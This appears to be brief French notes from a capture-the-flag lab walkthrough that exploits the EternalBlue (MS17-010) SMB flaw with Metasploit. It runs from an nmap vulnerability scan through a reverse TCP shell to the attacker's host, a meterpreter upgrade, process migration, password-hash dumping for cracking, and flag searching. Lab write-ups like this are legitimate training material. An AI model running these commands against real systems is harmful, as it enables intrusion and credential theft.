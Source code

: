 sudo msfconsole -q
search [la réponse de nmap -p 123 --script smb-vuln* [ip]]
(la réponse nmap:
smb-vuln-ms17-10:
    vulnerable:
    remote.....
    etc...
)
search ms17-10

pour eternalblue:
[msf](Jobs:0 Agents:0) >> use exploit/windows/smb/ms17_010_eternalblue
show options
set rhost 10.10.188.112
set payload windows/x64/shell_reverse_tcp
set lhost 10.9.0.203
set lport 4444
run

Shell Banner:
Microsoft Windows [Version 6.1.7601]
-----
          

C:\Windows\system32>

[msf](Jobs:0 Agents:1) exploit(windows/smb/ms17_010_eternalblue) >> search shell_to_meterpreter
use post/multi/manage/shell_to_meterpreter
set lhost 10.9.0.203
set lport 4433
set session 2
sessions -l
sessions -i 3
Meterpreter 3)(C:\Windows\system32) > migrate [PID powershell]
hashdump
[on trouve des hashs qu'il faut mettre dans un fichier et faire johntheripper]
(Meterpreter 3)(C:\) > search -f flag*.txt
et on trouve les flags

fin de eternalblue avec les commandes de metasploit